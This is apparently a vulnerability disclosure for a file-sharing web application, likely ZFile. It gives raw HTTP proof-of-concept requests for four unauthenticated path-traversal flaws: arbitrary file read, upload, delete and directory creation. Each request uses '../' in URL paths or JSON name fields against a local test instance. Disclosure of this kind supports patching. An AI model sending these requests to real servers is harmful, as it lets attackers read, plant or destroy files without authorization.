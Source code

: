 ## 1.arbitrary file read without authorization

**Step1:**

Create a file url:

request:

```
POST /api/storage/file/item HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
axios-request: true
Referer: http://test:8080/admin/site-setting
Content-Type: application/json;charset=UTF-8;
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 43

{
"storageKey":"1","path":"../test.txt"
}
```

response:

```
HTTP/1.1 200 
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept, zfile-token, axios-request
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Credentials: false
Access-Control-Max-Age: 600
vary: accept-encoding
Content-Type: application/json
Date: Fri, 02 Sep 2022 06:26:35 GMT
Connection: close
Content-Length: 249

{"code":0,"msg":"ok","data":{"name":"test.txt","time":"2022-09-02 14:26","size":0,"type":"FILE","path":"/..","url":"http://127.0.0.1:8080/pd/1/../test.txt?signature=68ad145ec49aa9c8bf67adbf7100b3b00c0e7213b9a09776ad92a5221bc70b5e"},"dataCount":null}
```

**Step2 :**

visit this url by burp, not your browser (the browser will eat the ../ )

http://127.0.0.1:8080/pd/1/../test.txt?signature=68ad145ec49aa9c8bf67adbf7100b3b00c0e7213b9a09776ad92a5221bc70b5e



## 2.arbitrary file upload without authorization

```
POST /file/upload/1/../New%20folder2/b.bin HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 191
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfKAFFIBNoar88Szt
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/1/New%20folder
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryfKAFFIBNoar88Szt
Content-Disposition: form-data; name="file"; filename="b.txt"
Content-Type: text/plain

test
------WebKitFormBoundaryfKAFFIBNoar88Szt--

```



## 3.arbitrary file delete

this vulnerability need file operation opened.

![image-20220902114441134](C:\Users\achio\AppData\Roaming\Typora\typora-user-images\image-20220902114441134.png)

```
POST /api/file/operator/delete/batch HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 174
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
axios-request: true
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8;
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"storageKey":"1","deleteItems":[{"name":"../test.txt","time":"2022-09-02 09:44","size":0,"type":"FILE","path":"/","icon":"text","fileType":"text","preview":true,"index":1}]}
```

in post data , the name parameter is vulnerable



## 4.Create arbitrary directory

this vulnerability need file operation opened.

![image-20220902115517944](C:\Users\achio\AppData\Roaming\Typora\typora-user-images\image-20220902115517944.png)

启用文件操作时，可以未授权创建任意目录

```
POST /api/file/operator/mkdir HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 45
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
zfile-token: 7067070a-5961-44ac-aacd-748db14eeac5
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
axios-request: true
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8;
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: zfile-token=7067070a-5961-44ac-aacd-748db14eeac5
Connection: close

{"storageKey":"1","path":"/","name":"../aaa"}
```

the name parameter is vulnerable in post data.
